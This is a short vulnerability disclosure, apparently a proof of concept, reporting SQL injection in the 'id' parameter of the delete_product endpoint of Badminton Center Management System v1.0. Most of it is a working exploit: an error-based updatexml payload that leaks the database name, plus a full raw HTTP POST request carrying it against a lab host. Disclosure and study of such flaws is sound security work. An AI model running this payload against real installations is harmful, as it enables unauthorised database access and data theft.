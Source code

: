 # Badminton Center Management System v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15318/badminton-center-management-system-phpoop-free-source-code.html

Vulnerability File: /bcms/classes/Master.php?f=delete_product

Vulnerability location: /bcms/classes/Master.php?f=delete_product, id

[+] Payload: id=5' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id


```sql
POST /bcms/classes/Master.php?f=delete_product HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://192.168.1.19/bcms/admin/?page=products
Content-Length: 65
Cookie: PHPSESSID=qq2e8htekg3g2rkgtbq38p0jnv
Connection: close

id=5' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/170614902-f20782c2-862b-4248-8ca9-debe0486de3d.png)
